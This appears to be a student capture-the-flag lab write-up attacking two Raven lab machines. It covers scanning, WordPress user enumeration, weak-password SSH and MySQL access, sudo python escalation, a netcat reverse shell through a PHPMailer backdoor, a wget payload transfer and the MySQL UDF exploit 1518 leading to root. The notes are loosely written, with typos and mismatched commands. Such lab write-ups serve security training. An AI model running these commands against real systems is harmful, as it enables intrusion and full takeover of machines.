


# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 11:24 PDT
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33174/tcp   status
|   100024  1          41697/udp   status
|   100024  1          43643/tcp6  status
|_  100024  1          46476/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on Port 22 verison 6.7p1
  - HTTP Apache Server on Port 80  version 2.4.10  
  - RPC on Port 111 
  - SMBD on Port 139 version 3.x -4.x
  - SMBD on Port 445 version 4.2.14

The following vulnerabilities were identified on target 1:
- Target 1
  - Weak Passwords
    
   - Easy to crack and guess  
  
  - Exposed MYSQL credentials inside of file
  
  - User is able to run Python as Root 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  -  flag1{b9bbcb33e11b80be759c4e844862482d} 
    - Used google inspect element to find the flag hidden in the code


  flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  
  I used WPSCAN to Enumerate user Michael and Steven 
  
  Command:  `WPSCAN -url 192.168.1.110 --enumerate u`
  
  
   
   - Used  basic Brute force to SSH into Michael's user
   - Weak Password used (michael)
      
     Command:  `
      ssh michael@192.168.1.110
      `
      
    -found flag inside of `/var/www/html/ `
    -screenshot here
    
    
   -  flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   - Foound exposed mysql credentials inside of /var/www/html/wordpress/wp-config.php


    - mysql -u root -p
    - Found user password hashes after running:
      - select * from wp_users; 
      


    - cracked password hashes with john 
 
 
 
    - Found flag3 after running
     select * from wp_posts;
  
  
  
    
   - flag4:715dea6c055b9fe3337544932f2941ce}
   - logged into steven with password pink367 
  
   - ran sudo -l to see stevens permissions
   - We can run python as sudo so we can create shell as root with python
   - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
   - sudo python -c 'import pty; pty.spawn("/bin/sh")'
   - screen shot
     
     
  ## Target 2
  
  ### Enumeration
    
    - `nmap -sC -sV 192.168.1.115`
    
    - `nitko -C all -h 192.168.1.115` 
   
  ## The following vulnerabilities were identified on target 2:

   - Public facing web pages giving away system version and potential exploits
    
   - Easy to crack and guess  
   
   - Version is sensitive to backdoor exploit
  
  - Exposed MYSQL credentials inside of file
  
  - SQL is sensitive to UDF Dynamic Library Priveledge Escalation E-DB:1518 https://www.exploit-db.com/exploits/1518
  
  ### Exploitation
  
  #### flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    
  First I enumerated directories with Gobuster 
  
  
  Then I found a vendor directory and found a flag inside ofthe PATH file
 
- found information on version
- screenshot 
- found information on cves 
- Based on information provided I decided to use the backdoor exploit on the phpmailer 
- gained reverse shell on netcat 
- used a url encoded reverse shell
  - cmd=nc%20<192.168.1.115>%204444%20-e%20/bin/bash
  - screenshot 
  - -traversed directories and found flag2
    
### flag 3 flag3{a0f568aa9de277887f37730d71520d9b}
  -find /var/www -type f -iname 'flag*'
  -this leads us to a png file 
  - we setup a simple http server insid the directory of the flagto download to the file to my attacking machine
  - python -m SimpleHTTPServer 8080 
  - wget http://192.168.1.115/flag3 

 ### Priviledge Escalation
   - `flag4{df2bc5e951d91581467bb9a2a8ff4425}`
   - `signed into mysql with credentials from last activity`
   - `enumerated the mysql for version number`
   - after running linenum and outside research I foudn the machine is vulnerable to udf dynamic library exploit 1518.c
   - `searchsploit –m 1518.c`
   - `gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc`
   - setup python simple server to transfer 1518.so payload to ovictim machine
      - `Python3 -m http.server`
      - 'wget http://192.168.1.90:8000/1518.so'
      -  transfer into /tmp directory
   - `mysql -u root -p`
   - `use mysql; create table poo(line blob);`
   - `insert into poo values(load_file('/tmp/1518.so'));`
   - `select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
   - `create function do_system returns integer soname '1518.so';`
   - `select do_system('chmod u+s /usr/bin/find');`
   - now we head back to the /tmp directory
   - ```touch raj
     find raj –exec "whoami" \;
     find raj –exec "/bin/sh" \;
     cd /root
      ls
     cat flag4.txt`
   
